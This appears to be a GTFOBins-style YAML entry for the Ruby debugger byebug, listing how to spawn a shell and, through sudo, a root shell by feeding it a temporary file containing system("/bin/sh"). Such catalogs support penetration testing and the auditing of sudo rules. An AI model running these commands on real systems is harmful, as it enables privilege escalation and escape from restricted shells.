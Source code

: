 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        byebug $TF
        continue
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'system("/bin/sh")' > $TF
        sudo byebug $TF
        continue
---
```

